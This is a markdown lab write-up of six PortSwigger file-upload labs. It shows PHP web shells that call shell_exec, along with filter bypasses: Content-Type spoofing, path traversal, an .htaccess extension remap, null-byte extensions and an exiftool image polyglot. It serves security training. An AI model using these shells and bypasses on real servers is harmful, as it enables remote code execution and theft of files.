 ## File upload vulnerabilities

### [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- write a simple php code to view the content of `/home/carlos/secret`
  ```php
  <?php
  echo shell_exec('cat /home/carlos/secret');
  ?>
  ```

- upload the file

- from burp make the `Content-Type` header as a `text/html` 
  >to view all different extensions and equivalent value of Content-type header : [Content-Type](https://www.php.net/manual/en/function.mime-content-type.php#87856)



<img src=".\file_upload_img\1_2.png" style="zoom:80%;" />



- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

![](C:\Users\dell\Desktop\file_upload_img\1_1.png)







------





### [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get 
  ```
  Sorry, file type application/octet-stream is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
  ```

- I changed the `Content-Type` header to  `image/png` and sent the request

  

  <img src=".\file_upload_img\2_1.png" style="zoom:80%;" />

  

- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text



------





### [Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

Goal : upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`
- login with your credentials `wiener : peter`
- if you try to upload the previous php file you will get `The file avatars/code.php has been uploaded.`
- go to the file path
- notice that the page is blank and the code doesn't executed , it's just exists as a plain text
- In the `Content-Disposition` header, change the `filename` to `../code.php`
- notice that the file has been uploaded to `/files/code.php` NOT `/files/avatars/code.php` , so the filename parameter is vulnerable to path traversal
- the server performs URL decoding to the file name , So send the same request but encode the `/` with URL encoding (`%2f`) , you will get `The file avatars/../code.php has been uploaded`

<img src=".\file_upload_img\3_1.png" style="zoom:80%;" />



- go to `/files/avatars/..%2fcode.php` and you will see the secret text





------





### [Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Sorry, php files are not allowed Sorry, there was an error uploading your file.`

- the extension `php` is blocked so i tried other php extensions to bypass the blacklisted extension

- from burp intruder i loaded these extensions and the file uploaded successfully but it was as a plain text
  >for more extensions and bypasses : [file upload bypass](https://book.hacktricks.xyz/pentesting-web/file-upload) 

  ```
  .php2
  .php3
  .php4
  .php5
  .php6
  .php7
  ```

- we need to tell the server to execute any extension we add as a `php`code , so we will add our `.htaccess` file

- change filename to `.htaccess` with `Content-Type : html/plain` and content : 
  ```
  AddType application/x-httpd-php .php0
  ```

- now any file with `php0` extension will be executed as a `php` code

<img src=".\file_upload_img\4_1.png" style="zoom:80%;" />



- back to the previous request , change the filename to `code.php0` and send the request



<img src=".\file_upload_img\4_2.png" style="zoom:80%;" />



- you will get the path of the file `The file avatars/code.php0 has been uploaded. `
- go to the file path and you will see the secret text





------





### [Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.`

- the extension `php` is blocked so I tried URL-encoded null byte characters (`%00`) before the file extension 



<img src=".\file_upload_img\5_1.png" style="zoom:80%;" />





- you will get the path of the file `The file avatars/code.php has been uploaded. `
- go to the file path and you will see the secret text

<img src="C:\Users\dell\Desktop\file_upload_img\5_2.png" style="zoom:80%;" />





------





### [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

Goal : upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

- go to `my account`

- login with your credentials `wiener : peter`

- if you try to upload the previous php file you will get `Error: file is not a valid image Sorry, there was an error uploading your file.`

- I tried URL-encoded null byte characters (`%00`) before the file extension  , but I got the same message

- we need to inject our php code in any image , so we will use `exiftool` to do that
  ```bash
  exiftool -Comment="<?php echo 'Carlos Secret' . shell_exec('cat /home/carlos/secret'); ?>"  -o code.php
  ```

- this command will add this comment to the image metadata



<img src=".\file_upload_img\6_1.png" style="zoom:80%;" />



- upload the image 

<img src=".\file_upload_img\6_2.png" style="zoom:80%;" />



- go to your image path `/files/avatars/code.php` , you will get the secret text in the response



<img src=".\file_upload_img\6_3.png" style="zoom:80%;" />



